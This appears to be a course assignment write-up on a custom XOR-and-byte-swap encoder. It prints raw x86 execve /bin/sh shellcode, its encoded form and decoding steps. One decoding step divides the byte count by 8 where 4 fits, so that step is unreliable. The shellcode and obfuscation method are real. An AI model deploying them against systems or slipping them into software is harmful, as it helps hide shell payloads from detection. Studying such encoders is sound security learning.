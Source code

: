 # Assignment 4: Create a custom encoder

## Objectives

In this assignment I have to:
	* create a custom encoding scheme
	* create a full weaponized PoC with execve-stack shellcode

## Encoding out payload

The shellcode for execve-stack, with some optimization is 23 bytes long:

"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"

First step is to align this payload so to be a 4 multiple. Let's use \x90 as padding.

"\x31\xc0\x50\x68"
"\x2f\x2f\x73\x68"
"\x68\x2f\x62\x69"
"\x6e\x89\xe3\x31"
"\xc9\x31\xd2\xb0"
"\x0b\xcd\x80\x90"

We can XOR this block with a KEY. The key is 0xdeadbeef in our example.

"\xef\x6d\xee\x87"
"\xf1\x82\xcd\x87"
"\xb6\x82\xdc\x86"
"\xb0\x24\x5d\xde"
"\x17\x9c\x6c\x5f"
"\xd5\x60\x3e\x7f"

We can swap first half and second half of each word

"\x87\xee\x6d\xef"
"\x87\xcd\x82\xf1"
"\x86\xdc\x82\xb6"
"\xde\x5d\x24\xb0"
"\x5f\x6c\x9c\x17"
"\x7f\x3e\x60\xd5"

We prepend the payload with the actual number of byte of the shellcode, XOR-ed with the obfuscation key 0xdeadbeef

We have 24 bytes as payload
"\x18\x18\x18\x18" -> xor(0xdeadbeef) -> "\xc6\xb5\xa6\xf7"
Storing it swapped: "\xf7\xa6\xb5\xc6"

"\xf7\xa6\xb5\xc6"
"\x87\xee\x6d\xef"
"\x87\xcd\x82\xf1"
"\x86\xdc\x82\xb6"
"\xde\x5d\x24\xb0"
"\x5f\x6c\x9c\x17"
"\x7f\x3e\x60\xd5"

## Decoding routine

Given an encoded payload, the decoding route must be in place to make sure to
revert our strategy.

1) take the first dword, swap bytes and XOR with hardcoded key
2) divide the value stored in AL with 8 and store on EDX the number of words
	the payload is length
3) for each of the n dword(s)
	3.1) byte swap the words
	3.2) xor with the encoding key
